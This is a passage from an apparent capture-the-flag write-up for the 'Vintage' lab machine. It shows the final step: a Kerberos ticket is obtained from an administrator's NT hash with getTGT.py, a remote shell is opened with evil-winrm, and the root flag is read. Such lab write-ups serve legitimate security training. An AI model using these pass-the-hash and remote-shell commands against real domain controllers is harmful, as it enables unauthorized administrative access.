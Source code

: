 # Auth as l.bianchi_adm

## Root flag

Because the `Administrator` user ticket didn't work, just use `l.bianchi_adm` user to read the flag at `C:\Users\Administrator\Desktop\root.txt` because this user belongs to the `Administrators` group anyway.

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/l.bianchi_adm -hashes "<NTHash>"
export KRB5CCNAME=$(realpath l.bianchi_adm.ccache)
❯ evil-winrm -i dc01.vintage.htb -r vintage.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Documents> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
deadbeeff27998d688d8f7d9e5befake
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```
